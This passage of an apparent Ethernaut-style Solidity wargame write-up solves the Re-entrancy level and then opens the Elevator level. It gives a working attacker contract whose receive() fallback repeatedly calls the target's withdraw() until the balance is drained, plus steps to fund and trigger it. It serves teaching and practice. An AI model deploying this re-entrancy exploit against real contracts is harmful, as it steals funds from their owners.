 transfer and send are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork Source 1 Source 2.

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!


To solve this, we create a new contract and call those functions:


```
//SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.0;

import "@openzeppelin/contracts-ethereum-package/contracts/math/SafeMath.sol";

interface  Reentrance {
   function donate(address _to) external payable;
   function withdraw(uint _amount) external;
 }
 
contract Reentrancy {
    
    Reentrance public original = Reentrance(0x11b4747B9b3f4531CD99dC9f7f9D8648D268f547);
    uint public amount = 1 ether;    //withdrawal amount each time
    
    constructor() public payable {
}


function donateToSelf(uint _amount) public {
    original.donate.value(_amount).gas(4000000)(address(this));//need to add value to this fn
  }
  
   receive() external payable {
    if (address(original).balance != 0 ) {
        original.withdraw(amount); 
    }
}
}

```

when deploying the above contract for the 1st time, we pass on a balance of 1+ ETH

Then we donate an amount - make it 1 or another full eth.

```await web3.eth.getBalance("our instance")``` to check

After that we just send a tiny amount back to our contract via Metamask, which triggers calling the other contract.



## Elevator
Difficulty 4/10

This elevator won't let you reach the top of your building. Right?

Things that might help:
Sometimes solidity is not good at keeping promises.
This Elevator expects to be used from a Building.
You can use the view function modifier on an interface in order to prevent state modifications. The pure modifier also prevents functions from modifying the state. Make sure you read Solidity's documentation and learn its caveats.
```